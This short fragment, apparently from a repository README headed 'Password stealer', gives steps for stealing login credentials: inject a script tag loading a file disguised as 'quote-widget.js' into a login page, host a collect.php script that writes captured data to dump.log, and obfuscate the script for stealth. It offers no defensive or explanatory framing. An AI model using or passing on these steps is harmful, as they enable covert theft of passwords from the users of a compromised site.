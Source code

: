 ## Password stealer

Add this line to a login page

    <script src="http://127.0.0.1/quote-widget.js"></script>
    
Host the collect.php script and give it permission to write a dump.log file.

Obfuscate the script for more stealth.

